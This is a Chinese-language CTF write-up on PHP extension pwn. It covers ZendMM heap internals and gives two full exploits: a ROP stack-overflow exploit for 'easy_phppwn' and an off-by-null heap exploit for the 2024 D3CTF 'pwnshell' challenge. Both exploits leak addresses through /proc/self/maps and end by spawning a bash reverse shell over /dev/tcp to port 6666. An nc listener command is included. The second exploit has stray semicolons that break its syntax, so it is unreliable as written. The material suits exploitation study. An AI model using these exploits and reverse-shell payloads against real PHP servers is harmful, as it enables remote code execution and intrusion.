        171=>"\xab",172=>"\xac",173=>"\xad",174=>"\xae",175=>"\xaf",176=>"\xb0",177=>"\xb1",178=>"\xb2",179=>"\xb3",180=>"\xb4",
        181=>"\xb5",182=>"\xb6",183=>"\xb7",184=>"\xb8",185=>"\xb9",186=>"\xba",187=>"\xbb",188=>"\xbc",189=>"\xbd",190=>"\xbe",
        191=>"\xbf",192=>"\xc0",193=>"\xc1",194=>"\xc2",195=>"\xc3",196=>"\xc4",197=>"\xc5",198=>"\xc6",199=>"\xc7",200=>"\xc8",
        201=>"\xc9",202=>"\xca",203=>"\xcb",204=>"\xcc",205=>"\xcd",206=>"\xce",207=>"\xcf",208=>"\xd0",209=>"\xd1",210=>"\xd2",
        211=>"\xd3",212=>"\xd4",213=>"\xd5",214=>"\xd6",215=>"\xd7",216=>"\xd8",217=>"\xd9",218=>"\xda",219=>"\xdb",220=>"\xdc",
        221=>"\xdd",222=>"\xde",223=>"\xdf",224=>"\xe0",225=>"\xe1",226=>"\xe2",227=>"\xe3",228=>"\xe4",229=>"\xe5",230=>"\xe6",
        231=>"\xe7",232=>"\xe8",233=>"\xe9",234=>"\xea",235=>"\xeb",236=>"\xec",237=>"\xed",238=>"\xee",239=>"\xef",240=>"\xf0",
        241=>"\xf1",242=>"\xf2",243=>"\xf3",244=>"\xf4",245=>"\xf5",246=>"\xf6",247=>"\xf7",248=>"\xf8",249=>"\xf9",250=>"\xfa",
        251=>"\xfb",252=>"\xfc",253=>"\xfd",254=>"\xfe",255=>"\xff"
    ];
    $result = "";
    for($i = 0; $i < 8; $i++){
        $remainder = $value % 0x100;
        $value =  (int)($value/0x100);
        $result .= $p64_table[$remainder];
    }
    return $result;
}
//等价于u64
function u64(string $bytes):int{
    static $u64_table=[
        "\x00"=>0,"\x01"=>1,"\x02"=>2,"\x03"=>3,"\x04"=>4,"\x05"=>5,"\x06"=>6,"\x07"=>7,"\x08"=>8,"\x09"=>9,"\x0a"=>10,
        "\x0b"=>11,"\x0c"=>12,"\x0d"=>13,"\x0e"=>14,"\x0f"=>15,"\x10"=>16,"\x11"=>17,"\x12"=>18,"\x13"=>19,"\x14"=>20,
        "\x15"=>21,"\x16"=>22,"\x17"=>23,"\x18"=>24,"\x19"=>25,"\x1a"=>26,"\x1b"=>27,"\x1c"=>28,"\x1d"=>29,"\x1e"=>30,
        "\x1f"=>31,"\x20"=>32,"\x21"=>33,"\x22"=>34,"\x23"=>35,"\x24"=>36,"\x25"=>37,"\x26"=>38,"\x27"=>39,"\x28"=>40,
        "\x29"=>41,"\x2a"=>42,"\x2b"=>43,"\x2c"=>44,"\x2d"=>45,"\x2e"=>46,"\x2f"=>47,"\x30"=>48,"\x31"=>49,"\x32"=>50,
        "\x33"=>51,"\x34"=>52,"\x35"=>53,"\x36"=>54,"\x37"=>55,"\x38"=>56,"\x39"=>57,"\x3a"=>58,"\x3b"=>59,"\x3c"=>60,
        "\x3d"=>61,"\x3e"=>62,"\x3f"=>63,"\x40"=>64,"\x41"=>65,"\x42"=>66,"\x43"=>67,"\x44"=>68,"\x45"=>69,"\x46"=>70,
        "\x47"=>71,"\x48"=>72,"\x49"=>73,"\x4a"=>74,"\x4b"=>75,"\x4c"=>76,"\x4d"=>77,"\x4e"=>78,"\x4f"=>79,"\x50"=>80,
        "\x51"=>81,"\x52"=>82,"\x53"=>83,"\x54"=>84,"\x55"=>85,"\x56"=>86,"\x57"=>87,"\x58"=>88,"\x59"=>89,"\x5a"=>90,
        "\x5b"=>91,"\x5c"=>92,"\x5d"=>93,"\x5e"=>94,"\x5f"=>95,"\x60"=>96,"\x61"=>97,"\x62"=>98,"\x63"=>99,"\x64"=>100,
        "\x65"=>101,"\x66"=>102,"\x67"=>103,"\x68"=>104,"\x69"=>105,"\x6a"=>106,"\x6b"=>107,"\x6c"=>108,"\x6d"=>109,"\x6e"=>110,
        "\x6f"=>111,"\x70"=>112,"\x71"=>113,"\x72"=>114,"\x73"=>115,"\x74"=>116,"\x75"=>117,"\x76"=>118,"\x77"=>119,"\x78"=>120,
        "\x79"=>121,"\x7a"=>122,"\x7b"=>123,"\x7c"=>124,"\x7d"=>125,"\x7e"=>126,"\x7f"=>127,"\x80"=>128,"\x81"=>129,"\x82"=>130,
        "\x83"=>131,"\x84"=>132,"\x85"=>133,"\x86"=>134,"\x87"=>135,"\x88"=>136,"\x89"=>137,"\x8a"=>138,"\x8b"=>139,"\x8c"=>140,
        "\x8d"=>141,"\x8e"=>142,"\x8f"=>143,"\x90"=>144,"\x91"=>145,"\x92"=>146,"\x93"=>147,"\x94"=>148,"\x95"=>149,"\x96"=>150,
        "\x97"=>151,"\x98"=>152,"\x99"=>153,"\x9a"=>154,"\x9b"=>155,"\x9c"=>156,"\x9d"=>157,"\x9e"=>158,"\x9f"=>159,"\xa0"=>160,
        "\xa1"=>161,"\xa2"=>162,"\xa3"=>163,"\xa4"=>164,"\xa5"=>165,"\xa6"=>166,"\xa7"=>167,"\xa8"=>168,"\xa9"=>169,"\xaa"=>170,
        "\xab"=>171,"\xac"=>172,"\xad"=>173,"\xae"=>174,"\xaf"=>175,"\xb0"=>176,"\xb1"=>177,"\xb2"=>178,"\xb3"=>179,"\xb4"=>180,
        "\xb5"=>181,"\xb6"=>182,"\xb7"=>183,"\xb8"=>184,"\xb9"=>185,"\xba"=>186,"\xbb"=>187,"\xbc"=>188,"\xbd"=>189,"\xbe"=>190,
        "\xbf"=>191,"\xc0"=>192,"\xc1"=>193,"\xc2"=>194,"\xc3"=>195,"\xc4"=>196,"\xc5"=>197,"\xc6"=>198,"\xc7"=>199,"\xc8"=>200,
        "\xc9"=>201,"\xca"=>202,"\xcb"=>203,"\xcc"=>204,"\xcd"=>205,"\xce"=>206,"\xcf"=>207,"\xd0"=>208,"\xd1"=>209,"\xd2"=>210,
        "\xd3"=>211,"\xd4"=>212,"\xd5"=>213,"\xd6"=>214,"\xd7"=>215,"\xd8"=>216,"\xd9"=>217,"\xda"=>218,"\xdb"=>219,"\xdc"=>220,
        "\xdd"=>221,"\xde"=>222,"\xdf"=>223,"\xe0"=>224,"\xe1"=>225,"\xe2"=>226,"\xe3"=>227,"\xe4"=>228,"\xe5"=>229,"\xe6"=>230,
        "\xe7"=>231,"\xe8"=>232,"\xe9"=>233,"\xea"=>234,"\xeb"=>235,"\xec"=>236,"\xed"=>237,"\xee"=>238,"\xef"=>239,"\xf0"=>240,
        "\xf1"=>241,"\xf2"=>242,"\xf3"=>243,"\xf4"=>244,"\xf5"=>245,"\xf6"=>246,"\xf7"=>247,"\xf8"=>248,"\xf9"=>249,"\xfa"=>250,
        "\xfb"=>251,"\xfc"=>252,"\xfd"=>253,"\xfe"=>254,"\xff"=>255
    ];
    $result = 0;
    for($i = 7; $i >= 0; $i--){
        $result = $u64_table[$bytes[$i]] + $result * 0x100;
    }
    return $result;
}
//变为64位的数字，这个仅限于打印string
function hex64(int $value):string{
    static $hex64_table=[
        0=>"0",1=>"1",2=>"2",3=>"3",4=>"4",5=>"5",6=>"6",7=>"7",8=>"8",9=>"9",10=>"a",
        11=>"b",12=>"c",13=>"d",14=>"e",15=>"f"
    ];
    $result = "";
    for($i = 0; $i < 16; $i++){
        $remainder = $value % 0x10;
        $value =  (int)($value/0x10);
        $result = $hex64_table[$remainder] . $result;
    }
    return "0x" . $result;
}
//string to int
function s2i($s) {
    $result = 0;
    for ($x = 0;$x < strlen($s);$x++) {
        $result <<= 8;
        $result |= ord($s[$x]);
    }
    return $result;
}
//int to string，再进行read的时候肯定不能读入int，因此要转变为string
function i2s($i, $x = 8) {
    $re = "";
    for($j = 0;$j < $x;$j++) {
        $re .= chr($i & 0xff);
        $i >>= 8;
    }
    return $re;
}
```


 
# 栈溢出
与常规方法相同，只是泄露方式不同，可以直接通过 /proc/self/maps 泄露。
## exp

```php
<?php

function i2s($i, $x = 8) {
    $re = "";
    for($j = 0;$j < $x;$j++) {
        $re .= chr($i & 0xff);
        $i >>= 8;
    }
    return $re;
}

// 读取 /proc/self/maps 文件内容
$content = file_get_contents('/proc/self/maps');
echo $content ; //打印/proc/self/maps内容
// 函数用于解析基地址
function getBaseAddress($content, $pattern) {
    if (preg_match_all($pattern, $content, $matches)) {
        return $matches[1]; // 返回所有匹配的基地址
    }
    return null;
}

// 匹配 libc 的基地址
$libcPattern = '/^([0-9a-f]+)-[0-9a-f]+\\s+r--p\\s+.*?\\s+\\S*libc.*$/m';
$libcBaseAddresses = getBaseAddress($content, $libcPattern);

if ($libcBaseAddresses) {
    echo "libc base addresses:\n";
    foreach ($libcBaseAddresses as $address) {
        echo "0x$address\n";
        break;
    }
} else {
    echo "No libc base address found.\n";
}

// 匹配 stack 的基地址
$stackPattern = '/^([0-9a-f]+)-[0-9a-f]+\\s+rw-p\\s+.*?\\s+\\[stack\\]$/m';
$stackBaseAddresses = getBaseAddress($content, $stackPattern);

if ($stackBaseAddresses) {
    echo "stack base address:\n";
    foreach ($stackBaseAddresses as $address) {
        echo "0x$address\n";
        break;
    }
} else {
    echo "No stack base address found.\n";
}

// 定义地址和偏移量
$libc_base= hexdec($libcBaseAddresses[0]);
$stack_offset = 0x1c480;
$stack_addr  = hexdec($stackBaseAddresses[0]);
$p_rdi_r =  $libc_base+0x23b6a;//i2s(0x0000000000023b6a + $libc_base);
echo "$p_rdi_r\n";
$p_rsi_r = 0x000000000002601f + $libc_base;
$p_rdx_r = 0x000000000015fae6 + $libc_base; //0x000000000015fae6: pop rdx; pop rbx; ret; 
$p_rax_r = 0x0000000000036174 + $libc_base;
$ret = 0x0000000000036175 + $libc_base;
// 获取 popen 地址
$popen_addr = 0x84380 + $libc_base;

// 定义命令
$command = '/bin/bash -c "/bin/bash -i >&/dev/tcp/127.0.0.1/6666 0>&1"';

// 构造 payload
$buf1 = str_repeat('a', 0x80);
$buf = str_repeat('b', 0x8) . pack('Q', $p_rdi_r) . pack('Q', $stack_addr +$stack_offset ) ;
$buf .= pack('Q', $p_rsi_r) . pack('Q', $stack_addr +$stack_offset-0x18); 
$buf .= pack('Q', $ret); //balance stack rsp
$buf .= pack('Q', $popen_addr) . "r" . str_repeat("\x00", 7) ;
$buf = str_pad($buf, 0x50, 'c');
$buf .= str_pad($command, 0x60, "\x00") . str_repeat('\x00', 8);
$payload = $buf1 . $buf;

// 输出 payload，模拟 easy_phppwn(payload)

echo $payload;
easy_phppwn($payload)

?>
```

```bash
llk@ubuntu:~/Desktop/tools/php-src/ext/hello/modules$ sudo nc -lvvp 6666 -n
Listening on 0.0.0.0 6666

```
在 gdb 中：

本地宿主机：


# 堆
[https://hornos3.github.io/2024/07/01/PHP-pwn-%E5%AD%A6%E4%B9%A0-2/](https://hornos3.github.io/2024/07/01/PHP-pwn-%E5%AD%A6%E4%B9%A0-2/)
[https://xz.aliyun.com/t/15166?time__1311=GqjxuQi%3DDQ%3D0yRx%2BxCqiKTRDAr36eWqT4D#toc-1](https://xz.aliyun.com/t/15166?time__1311=GqjxuQi=DQ=0yRx%2bxCqiKTRDAr36eWqT4D#toc-1)
[https://deepunk.icu/php-pwn/#Payload](https://deepunk.icu/php-pwn/#Payload)


## PHP 堆源码

zend_alloc 以 CHUNK 为单位向操作系统分配内存，每个 CHUNK 包含 2MB 内存。超过整个 chunk 大小的分配属于巨大分配（huge allocation），zend_alloc 使用 mmap 为其分配内存。ZendMM 中经常使用 PAGE 的概念，一页通常包含 4KB 内存，也就是说，一个 chunk 包含 512 页。小于页面大小 3/4 的分配属于小块分配（small allocation），其余则是大块分配（large allocation）。
```c
_emalloc->zend_mm_alloc_heap

zend_mm_alloc_small
 * Small - less than 3/4 of page size. Small sizes are rounded up to nearest
 *         greater predefined small size (there are 30 predefined sizes:
 *         8, 16, 24, 32, ... 3072). Small blocks are allocated from
 *         RUNs. Each RUN is allocated as a single or few following pages.
 *         Allocation inside RUNs implemented using linked list of free
 *         elements. The result is aligned to 8 bytes.
 
zend_mm_alloc_large
 * Large - a number of 4096K pages inside a CHUNK. Large blocks
 *         are always aligned on page boundary.

zend_mm_alloc_huge
 * Huge  - the size is greater than CHUNK size (~2M by default), allocation is
 *         performed using mmap(). The result is aligned on 2M boundary.
 
 
_efree->zend_mm_free_heap
```
_emalloc 是 PHP 自己实现的内存分配函数；默认情况下，PHP 不使用外部库（如 glibc）进行内存分配。

```c
// /Zend/zend_alloc.c, line 2534

ZEND_API void* ZEND_FASTCALL _emalloc(size_t size ZEND_FILE_LINE_DC ZEND_FILE_LINE_ORIG_DC)
{

	if (UNEXPECTED(AG(mm_heap)->use_custom_heap)) {
		return _malloc_custom(size ZEND_FILE_LINE_RELAY_CC ZEND_FILE_LINE_ORIG_RELAY_CC);
	}

	return zend_mm_alloc_heap(AG(mm_heap), size ZEND_FILE_LINE_RELAY_CC ZEND_FILE_LINE_ORIG_RELAY_CC);
}
```
_malloc_custom 最终使用 glibc 库的 malloc 进行分配；通常使用 zend_mm_alloc_heap 分配。

```c
static ZEND_COLD void* ZEND_FASTCALL _malloc_custom(size_t size ZEND_FILE_LINE_DC ZEND_FILE_LINE_ORIG_DC)
{
	if (ZEND_DEBUG && AG(mm_heap)->use_custom_heap == ZEND_MM_CUSTOM_HEAP_DEBUG) {
		return AG(mm_heap)->custom_heap.debug._malloc(size ZEND_FILE_LINE_RELAY_CC ZEND_FILE_LINE_ORIG_RELAY_CC);
	} else {
		return AG(mm_heap)->custom_heap.std._malloc(size);
	}
}
```
在另一个分支 zend_mm_alloc_heap 中，通过比较大小来选择不同的分配方式。ZEND_MM_MAX_SMALL_SIZE 为 3072，ZEND_MM_MAX_LARGE_SIZE 为 2MB-4KB。这些题目中需要分配的大小基本都小于 3072。

```c

static zend_always_inline void *zend_mm_alloc_heap(zend_mm_heap *heap, size_t size ZEND_FILE_LINE_DC ZEND_FILE_LINE_ORIG_DC)
{
	void *ptr;

	if (EXPECTED(size <= ZEND_MM_MAX_SMALL_SIZE)) {
		ptr = zend_mm_alloc_small(heap, ZEND_MM_SMALL_SIZE_TO_BIN(size) ZEND_FILE_LINE_RELAY_CC ZEND_FILE_LINE_ORIG_RELAY_CC);

		return ptr;
	} else if (EXPECTED(size <= ZEND_MM_MAX_LARGE_SIZE)) {
		ptr = zend_mm_alloc_large(heap, size ZEND_FILE_LINE_RELAY_CC ZEND_FILE_LINE_ORIG_RELAY_CC);

		return ptr;
	} else {

		return zend_mm_alloc_huge(heap, size ZEND_FILE_LINE_RELAY_CC ZEND_FILE_LINE_ORIG_RELAY_CC);
	}
}
```

通过 ZEND_MM_SMALL_SIZE_TO_BIN(size) 获取所属 bin 的 idx。[https://segmentfault.com/a/1190000018260140](https://segmentfault.com/a/1190000018260140)
```c
if (EXPECTED(size <= ZEND_MM_MAX_SMALL_SIZE)) {
		ptr = zend_mm_alloc_small(heap, ZEND_MM_SMALL_SIZE_TO_BIN(size))
		
ZEND_MM_SMALL_SIZE_TO_BIN的转换规则如下
if (size <= 64) {
		/* we need to support size == 0 ... */
		return (size - !!size) >> 3; 
	} else {
		t1 = size - 1;
		t2 = zend_mm_small_size_to_bit(t1) - 3;
		t1 = t1 >> t2;
		t2 = t2 - 3;
		t2 = t2 << 2;
		return (int)(t1 + t2);
	}
	
/* higher set bit number (0->N/A, 1->1, 2->2, 4->3, 8->4, 127->7, 128->8 etc) */
static zend_always_inline int zend_mm_small_size_to_bit(int size)
{
#if (defined(__GNUC__) || __has_builtin(__builtin_clz))  && defined(PHP_HAVE_BUILTIN_CLZ)
	return (__builtin_clz(size) ^ 0x1f) + 1;
#elif defined(_WIN32)
	unsigned long index;

	if (!BitScanReverse(&index, (unsigned long)size)) {
		/* undefined behavior */
		return 64;
	}

	return (((31 - (int)index) ^ 0x1f) + 1);
#else
	int n = 16;
	if (size <= 0x00ff) {n -= 8; size = size << 8;}
	if (size <= 0x0fff) {n -= 4; size = size << 4;}
	if (size <= 0x3fff) {n -= 2; size = size << 2;}
	if (size <= 0x7fff) {n -= 1;}
	return n;
#endif
}		
```
各 idx 对应的大小如下：

```c
这里会根据idx得到对应的要分配的size大小

```c
static const uint32_t bin_data_size[] = {
	ZEND_MM_BINS_INFO(_BIN_DATA_SIZE, x, y)
};

/* num, size, count, pages */
#define ZEND_MM_BINS_INFO(_, x, y) \
    _( 0,    8,  512, 1, x, y) \
    _( 1,   16,  256, 1, x, y) \
    _( 2,   24,  170, 1, x, y) \
    _( 3,   32,  128, 1, x, y) \
    _( 4,   40,  102, 1, x, y) \
    _( 5,   48,   85, 1, x, y) \
    _( 6,   56,   73, 1, x, y) \
    _( 7,   64,   64, 1, x, y) \
   
    _( 8,   80,   51, 1, x, y) \
    _( 9,   96,   42, 1, x, y) \
    _(10,  112,   36, 1, x, y) \    
    _(11,  128,   32, 1, x, y) \
    
    _(12,  160,   25, 1, x, y) \    
    _(13,  192,   21, 1, x, y) \
    _(14,  224,   18, 1, x, y) \    
    _(15,  256,   16, 1, x, y) \
    
    _(16,  320,   64, 5, x, y) \    
    _(17,  384,   32, 3, x, y) \
    _(18,  448,    9, 1, x, y) \    
    _(19,  512,    8, 1, x, y) \
    
    _(20,  640,   32, 5, x, y) \
    _(21,  768,   16, 3, x, y) \
    _(22,  896,    9, 2, x, y) \    
    _(23, 1024,    8, 2, x, y) \
    
    _(24, 1280,   16, 5, x, y) \
    _(25, 1536,    8, 3, x, y) \
    _(26, 1792,   16, 7, x, y) \    
    _(27, 2048,    8, 4, x, y) \
    
    _(28, 2560,    8, 5, x, y) \
    _(29, 3072,    4, 3, x, y)

#endif /* ZEND_ALLOC_SIZES_H */
```
```
size 在 small 范围时进入该函数。如果对应的 bin 已初始化（不为 NULL），就按照类似 tcache 的方式分配；否则通过 zend_mm_alloc_small_slow 初始化，并返回第一个块。
```c
static zend_always_inline void *zend_mm_alloc_small(zend_mm_heap *heap, int bin_num ZEND_FILE_LINE_DC ZEND_FILE_LINE_ORIG_DC)
{
#if ZEND_MM_STAT
	do {
		size_t size = heap->size + bin_data_size[bin_num];
		size_t peak = MAX(heap->peak, size);
		heap->size = size;
		heap->peak = peak;
	} while (0);
#endif

	if (EXPECTED(heap->free_slot[bin_num] != NULL)) {
		zend_mm_free_slot *p = heap->free_slot[bin_num];
		heap->free_slot[bin_num] = p->next_free_slot;
		return p;
	} else {
		return zend_mm_alloc_small_slow(heap, bin_num ZEND_FILE_LINE_RELAY_CC ZEND_FILE_LINE_ORIG_RELAY_CC);
	}
}
```

如果对应索引的 free_slot 尚未初始化，就在这里初始化：为当前 size 对应的 idx 分配若干页，再切分为单独的块，通过链表串起来，因此初始时它们在物理上相邻。
```c

static zend_never_inline void *zend_mm_alloc_small_slow(zend_mm_heap *heap, uint32_t bin_num ZEND_FILE_LINE_DC ZEND_FILE_LINE_ORIG_DC)
{
	zend_mm_chunk *chunk;
	int page_num;
	zend_mm_bin *bin;
	zend_mm_free_slot *p, *end;

	bin = (zend_mm_bin*)zend_mm_alloc_pages(heap, bin_pages[bin_num] ZEND_FILE_LINE_RELAY_CC ZEND_FILE_LINE_ORIG_RELAY_CC);

	if (UNEXPECTED(bin == NULL)) {
		/* insufficient memory */
		return NULL;
	}

	chunk = (zend_mm_chunk*)ZEND_MM_ALIGNED_BASE(bin, ZEND_MM_CHUNK_SIZE);
	page_num = ZEND_MM_ALIGNED_OFFSET(bin, ZEND_MM_CHUNK_SIZE) / ZEND_MM_PAGE_SIZE;
	chunk->map[page_num] = ZEND_MM_SRUN(bin_num);
	if (bin_pages[bin_num] > 1) {
		uint32_t i = 1;

		do {
			chunk->map[page_num+i] = ZEND_MM_NRUN(bin_num, i);
			i++;
		} while (i < bin_pages[bin_num]);
	}

	/* create a linked list of elements from 1 to last */
	end = (zend_mm_free_slot*)((char*)bin + (bin_data_size[bin_num] * (bin_elements[bin_num] - 1)));
	heap->free_slot[bin_num] = p = (zend_mm_free_slot*)((char*)bin + bin_data_size[bin_num]);
	do {
		p->next_free_slot = (zend_mm_free_slot*)((char*)p + bin_data_size[bin_num]);
		p = (zend_mm_free_slot*)((char*)p + bin_data_size[bin_num]);
	} while (p != end);

	/* terminate list using NULL */
	p->next_free_slot = NULL;

	/* return first element */
	return bin;
}

```
小块分配的释放过程，与 tcache 非常相似。

```c
static zend_always_inline void zend_mm_free_small(zend_mm_heap *heap, void *ptr, int bin_num)
{
	zend_mm_free_slot *p;

#if ZEND_MM_STAT
	heap->size -= bin_data_size[bin_num];
#endif

#if ZEND_DEBUG
	do {
		zend_mm_debug_info *dbg = (zend_mm_debug_info*)((char*)ptr + bin_data_size[bin_num] - ZEND_MM_ALIGNED_SIZE(sizeof(zend_mm_debug_info)));
		dbg->size = 0;
	} while (0);
#endif

	p = (zend_mm_free_slot*)ptr;
	p->next_free_slot = heap->free_slot[bin_num];
	heap->free_slot[bin_num] = p;
}


```


## 利用
- 可以看到，这里没有对 fd 做任何检查，而且初始时各块在物理上相邻。
- 如果存在溢出，就可以修改下一个 chunk 的 fd，实现任意地址分配。
- 释放时也没有 double free 检查。

## 2024 D3CTF pwnshell

发现反编译结果中某些函数缺少参数，需要修改函数定义，补上参数。
```c

Z zval**类型
```
然后找一个扩展库，找到该结构体的定义，并在 IDA 中创建结构体。
这里存在 off by null。
```c
unsigned __int64 __fastcall zif_addHacker(__int64 a1, __int64 a2)
{
  __int64 index; // rbp
  __int64 v3; // rdi
  __int64 avai_index; // rdx
  _BYTE *p_notexist; // rax
  struct chunk *v7; // r12
  struct chunk1 *chunk1; // rbx
  void *chunk2; // rax
  size_t size; // rdx
  char *ptr; // rsi
  struct _zval_struct *v12; // r13
  size_t size_1; // rax
  struct _zval_struct *arg2; // [rsp+8h] [rbp-40h] BYREF
  struct _zval_struct *arg1; // [rsp+10h] [rbp-38h] BYREF
  unsigned __int64 v16; // [rsp+18h] [rbp-30h]

  v3 = *(unsigned int *)(a1 + 44);
  v16 = __readfsqword(0x28u);
  if ( (unsigned int)zend_parse_parameters(v3, "zz", &arg1, &arg2) != -1 )// v13是第二个参数
  {
    if ( arg1->u1.v.type == 6 && arg2->u1.v.type == 6 )
    {
      avai_index = 0LL;
      p_notexist = &chunkList[0].notexist;
      while ( *p_notexist != 1 )
      {
        ++avai_index;
        p_notexist += 16;
        if ( avai_index == 16 )
          goto LABEL_9;
      }
      index = avai_index;
LABEL_9:
      v7 = &chunkList[index];
      chunk1 = (struct chunk1 *)_emalloc((_QWORD *)(arg2->value.lval->len + 16));
      chunk2 = (void *)_emalloc((_QWORD *)arg1->value.lval->len);
      chunk1->chunk2_ptr = chunk2;
      size = arg1->value.lval->len;
      ptr = arg1->value.lval->val;
      chunk1->chunk1_size = size;
      memcpy(chunk2, ptr, size);
      v12 = arg2;
      memcpy(chunk1->chunk1_buf, arg2->value.lval->val, arg2->value.lval->len);
      size_1 = v12->value.lval->len;
      v7->chunk_ptr = chunk1;
      v7->notexist = 13;
      *((_BYTE *)chunk1->chunk1_buf + size_1) = 0;// off by null
    }
    else
    {
      *(_DWORD *)(a2 + 8) = 1;
    }
  }
  return v16 - __readfsqword(0x28u);
}
```



这里选择一个对应 bin 尚未初始化的大小，使取得的第一个块按页对齐，即低字节为零字节。
随后，在第一次 addHacker 分配时，第一个 chunk 的零字节溢出会修改当前位于链表首部的 chunk 的 next 字段低字节。
接着再次调用 addHacker，此次申请的第二个 chunk 会被分配到第一次分配时第一个 chunk 所在的位置。
现在可以修改原先第一个 chunk 的 chunk2ptr 和 size（editHacker 需要使用），再将其覆盖为 efree 的 GOT 地址。
随后使用 editHacker 将其改为 system。最后，通过 addHacker 将命令存入第二个申请的 chunk，再对最后一次 addHacker 的索引执行 removeHacker。
## exp

```php
<?php
$heap_base = 0;
$libc_base = 0;
$libc = "";
$mbase = "";

function u64($leak){
    $leak = strrev($leak);
    $leak = bin2hex($leak);
    $leak = hexdec($leak);
    return $leak;
}

function p64($addr){
    $addr = dechex($addr);
    $addr = hex2bin($addr);
    $addr = strrev($addr);
    $addr = str_pad($addr, 8, "\x00");
    return $addr;
}

function leakaddr($buffer){
    global $libc,$mbase;
    $p = '/([0-9a-f]+)\-[0-9a-f]+ .* \/usr\/lib\/x86_64-linux-gnu\/libc.so.6/';
    $p1 = '/([0-9a-f]+)\-[0-9a-f]+ .*  \/usr\/local\/lib\/php\/extensions\/no-debug-non-zts-20230831\/vuln.so/';
    preg_match_all($p, $buffer, $libc);
    preg_match_all($p1, $buffer, $mbase);
    return "";
}

function leak(){
    global $libc_base, $module_base, $libc, $mbase;
    ob_start();
    include("/proc/self/maps");
    $buffer = ob_get_contents();
    ob_end_flush();
    leakaddr($buffer);
    $libc_base=hexdec($libc[1][0]);
    $module_base=hexdec($mbase[1][0]);
}

function main(){
    $cmd = 'bash -c "bash -i >& /dev/tcp/127.0.0.1/6666 0>&1"';
    leak();
    global $libc_base, $module_base;
    addHacker(str_repeat("\x11", 0x8), str_repeat("\x11", 0x30));
    addHacker(str_pad(p64($module_base + 0x4038).p64(0xff), 0x40, "\x11");, str_repeat("\x11", 0x2f));
    addHacker(str_pad($cmd, 0x40, "\x00"), "1");
    editHacker(0, p64($libc_base + 0x4c411););
    removeHacker(2);
}

main();
?>


```

